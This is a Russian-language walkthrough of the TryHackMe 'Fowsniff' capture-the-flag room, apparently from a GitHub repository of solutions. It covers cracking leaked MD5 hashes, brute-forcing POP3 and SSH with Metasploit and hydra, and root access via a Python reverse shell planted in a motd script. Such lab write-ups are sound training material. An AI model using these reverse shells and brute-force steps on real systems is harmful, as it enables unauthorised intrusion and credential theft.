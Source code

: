 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Fowsniff CTF](https://tryhackme.com/r/room/ctf) 

Всего 1 заданиe:
## Задание 1
Эта машина boot2root великолепна для новичков. Вам придется перечислить эту машину, найдя открытые порты, провести 
некоторые онлайн-исследования (удивительно, сколько информации может найти для вас Google), расшифровать хэши, 
перебрать вход в систему pop3 и многое другое!

Это будет структурировано, чтобы пройти через то, что вам нужно сделать, шаг за шагом. Убедитесь, что вы подключены 
к нашей сети 

Спасибо berzerk0  за создание этой машины. Эта машина используется здесь с явного разрешения создателя <3 

### Ответьте на вопросы ниже
Разверните машину. В правом верхнем углу вы увидите кнопку «Развернуть» . Нажмите на нее, чтобы развернуть машину в 
облаке. Подождите минуту, пока она не станет активной. 
```commandline
Ответ не нужен
```
Используя nmap, просканируйте эту машину. Какие порты открыты?
```commandline
nmap -Pn -sC -sV -A
```
```commandline
Ответ не нужен
```
Используя информацию из открытых портов. Осмотритесь. Что вы можете найти?

Подключение к веб-серверу показывает, что компания подверглась атаке:

Внутренняя система Fowsniff подверглась утечке данных, в результате которой были раскрыты имена пользователей и пароли сотрудников.

Информация о клиенте не пострадала.

В связи с высокой вероятностью того, что информация о сотрудниках стала общедоступной, всем сотрудникам было поручено немедленно сменить свои пароли.

Атакующие также смогли взломать наш официальный аккаунт @fowsniffcorp Twitter. Все наши официальные твиты были удалены, и злоумышленники могут опубликовать конфиденциальную информацию через этот канал. Мы работаем над тем, чтобы решить эту проблему как можно скорее.

Мы восстановим полную мощность после модернизации обслуживания.
Поиск аккаунта Twitter (@fowsniffcorp), упомянутого в сообщении, приводит к адресу https://twitter.com/fowsniffcorp ,
где мы можем найти твит со ссылкой на https://pastebin.com/NrAqVeeX . 

```commandline
Ответ не нужен
```
Можете ли вы с помощью Google найти какую-либо публичную информацию о них?

Подсказка: существует папка Pastebin со всеми адресами электронной почты и хэшами сотрудников компании.

В контенте раскрываются адреса электронной почты и хэши паролей.

```commandline
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4 
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56 
tegel@fowsniff:1dc352435fecca338acfd4be10984009 
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb 
seina@fowsniff:90dc16d47114aa13671c697fd506cf26 
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd 
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b 
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11 
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
```
```commandline
Ответ не нужен
```
Можете ли вы расшифровать эти md5 хеши? Вы даже можете использовать сайты типа hashkiller, чтобы расшифровать их.
Используя https://hashes.com/en/decrypt/hash , мы можем восстановить 8 паролей из 9:
```commandline
Email	            MD5 hash	                        password
mauer@fowsniff	    8a28a94a588a95b80163709ab4313aa4	mailcall
mustikka@fowsniff	ae1644dac5b77c0cf51e0d26ad6d7e56	bilbo101
tegel@fowsniff	    1dc352435fecca338acfd4be10984009	apples01
baksteen@fowsniff	19f5af754c31f1e2651edde9250d69bb	skyler22
seina@fowsniff	    90dc16d47114aa13671c697fd506cf26	scoobydoo2
stone@fowsniff	    a92b8a29ef1183192e3d35187e0cfabd	-
mursten@fowsniff	0e9588cb62f4b6f27e33d449e2ba0b3b	carp4ever
parede@fowsniff	    4d6e42f56e127803285a0a7649b5ab11	orlando12
sciana@fowsniff	    f7fd98d380735e859f8b2ffbbede5a7e	07011972
```

```commandline
Ответ не нужен
```
Используя полученные вами имена пользователей и пароли, можете ли вы применить Metasploit для взлома пароля pop3?
Подсказка: в metasploit есть пакет под названием: auxiliary/scanner/pop3/pop3_login, в который вы можете ввести все 
найденные вами имена пользователей и пароли для взлома службы pop3 этой машины. 

Мы можем использовать модуль Metasploit pop3_loginдля взлома службы POP3, используя найденные ранее учетные данные.
```commandline
msfconsole -q
use auxiliary/scanner/pop3/pop3_login
show options 
set rhost <IP> 
set user_file /data/Fowsniff_CTF/files/usernames.txt 
set pass_file /data/Fowsniff_CTF/files/passwords.txt 
run 
```
или можно использовать гидра, она будет быстрее
```commandline
hydra -L usernames.txt -P passwords.txt pop3://<IP> 
логин: seina пароль: scoobydoo2
```
```commandline
Ответ не нужен
```
Какой пароль у seina для доступа к почтовому сервису?
```commandline
scoobydoo2
```
Можете ли вы подключиться к службе pop3 с ее учетными данными? Какую информацию об электронной почте вы можете собрать?
```commandline
telnet <IP> 110
логин: seina пароль: scoobydoo2
retr 1
# Временный пароль для SSH - "S1ck3nBluff+secureshell". 
retr 2
```
```commandline
Ответ не нужен
```
Просматривая ее электронную почту, какой временный пароль был установлен для нее?
```commandline
S1ck3nBluff+secureshell
```
В электронном письме, кто его отправил? Используя пароль из предыдущего вопроса и имя пользователя отправителя, 
подключитесь к машине с помощью SSH. 
```commandline
hydra -L sshusers.txt -p S1ck3nBluff+secureshell ssh://<IP>
ssh baksteen@<IP>
```
```commandline
Ответ не нужен
```
После подключения, к каким группам принадлежит этот пользователь? Есть ли какие-нибудь интересные файлы, которые 
может запустить эта группа? 
```commandline
id
find / -type f -group users 2>/dev/null
ssh baksteen@<IP>
```
Скрипт /opt/cube/cube.shи нтересен тем, что он отображает баннер, который отображается при подключении к SSH-сервису. 
Кроме того, мы можем его модифицировать. Это значит, что мы можем заменить его содержимое обратной оболочкой.
```commandline
Ответ не нужен
```
Теперь, когда вы нашли файл, который может редактировать группа, можете ли вы отредактировать его, включив в него обратную оболочку?

Обратная оболочка Python:
`python3 -c 'import socket,subprocess, os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((<IP>,1234)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
`
Другие обратные оболочки: здесь.
```commandline
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```commandline
Ответ не нужен
```
Если вы еще не узнали, этот файл запускается как root, когда пользователь подключается к машине с помощью SSH. Мы 
знаем это, поскольку при первом подключении мы видим, что нам выдается баннер (с fowsniff corp). Посмотрите в  файле 
/etc/update-motd.d/ . Если (после того, как мы поместили нашу обратную оболочку в файл cube) мы затем включим этот 
файл в файл motd.d, он запустится как root, и мы получим обратную оболочку как root!
```commandline
grep cube * 
sh /opt/cube/cube.sh
```
```commandline
Ответ не нужен
```
Запустите прослушиватель netcat (nc -lvp 1234) и затем повторно войдите в службу SSH. Затем вы получите обратную 
оболочку в вашем сеансе netcat как root! 
Давайте отключимся от нашего сеанса SSH и откроем прослушиватель (адаптируем порт в соответствии с указанным в обратной оболочке):
```commandline
rlwrap nc -nlvp 4444
id
cd /root
ls -la
cat flag.txt
```
```commandline
Ответ не нужен
```
Если вы действительно застряли, вот блестящее пошаговое руководство:  https://www.hackingarticles.in/fowsniff-1-vulnhub-walkthrough/ 

Если вам так проще, следуйте этому пошаговому руководству, разместив машину на объекте.
```commandline
Ответ не нужен
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)